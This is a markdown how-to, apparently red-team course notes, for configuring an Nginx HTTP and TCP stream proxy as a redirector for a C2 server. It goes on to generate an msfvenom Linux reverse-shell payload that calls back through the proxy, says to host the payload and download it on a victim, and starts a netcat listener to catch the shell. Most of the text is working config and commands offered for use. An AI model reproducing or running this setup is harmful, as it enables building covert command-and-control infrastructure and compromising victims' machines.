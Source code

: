 # Setting up Nginx for TCP proxy 

1. First off this shit is stupid, nginx only knows how to deal with HTTP traffig and beacon traffic can sometimes be encrypted by defualt making it hard for Nginx to deal with. There for we are going to have to not only set up our `proxy_reverse` but also configure TCP on the server if we want COMs to work all the way with out the use of ssl certs
2. To start lests install Nginx
    ```bash
    sudo apt install nginx 
    ```
3. Now lets modify our config file which might no exist 
    ```bash 
    sudo vim /etc/nginx/conf.d/lp_proxy.conf
    ```
4. Paste the follwing in `lp_proxy.conf`
    ```nginx
    server {
        listen 80;
        listen [::]:80;

        server_name <serverIP-OR-ServerDNSname>;

        location / {
            proxy_pass http://<parrot-c2-ip>;
        }
    }
    ```
4. Now lets add the TCP rules to allow us to handle the beacons
    ```bash
    sudo vim /etc/nginx/nginx.conf
    ```
5. Paste the following Bellow `http {...}` section
    ```nginx
    stream {
        log_format posh '$remote_addr [$time_local] '
        '$protocol $status $bytes_sent $bytes_received '
        '$session_time "$upstream_addr" '
        '"$upstream_bytes_sent" "$upstream_bytes_received" "$upstream_connect_time"';
    
        server {
            listen 8080;

            proxy_pass <Parrot-IP>:80;

            access_log /var/log/nginx/tcp_access.log posh;
            error_log /var/log/nginx/tcp_error.log;

        }


    }
    ```
6. Now lets reload Nginx with the new config files
    ```bash 
    sudo systemctl restart nginx.service
    ```
7. From here we can now create a msfvenom shell or poshc2 with the correct ports set in the TCP section in the example we have `8080` 
    ```bash
   msfvenom -p linux/x64/shell_reverse_tcp LHOST=<proxy-ip> LPORT=8080 -a x64 -f elf > yup.elf
    ```
    > **NOTE:** Follow the same setup if you are using Poshc2 set your bind port to 80/443, and in `payloadcomshost` set your `http://proxy-ip:<stream-listening-port>`
8. Host your payload however and download on victim 
9. Now if you are running msfvenom start you `nc` listener to catch your beacon.
    ```bash
    sudo nc -lnvp 80
    ```
10. tada you have a beacon shelley, fuck you.

## Important Nginx File Locations 
- `/var/www/html` – Website content as seen by visitors.
- `/etc/nginx` – Location of the main Nginx application files.
- `/etc/nginx/nginx.conf` – The main Nginx configuration file.
- `/etc/nginx/sites-available` – List of all websites configured through Nginx.
- `/etc/nginx/sites-enabled` – List of websites actively being served by Nginx.
- `/var/log/nginx/access.log` – Access logs tracking every request to your server.
- `/var/log/ngins/error.log` – A log of any errors generated in Nginx.

## [Return to course page](README.md)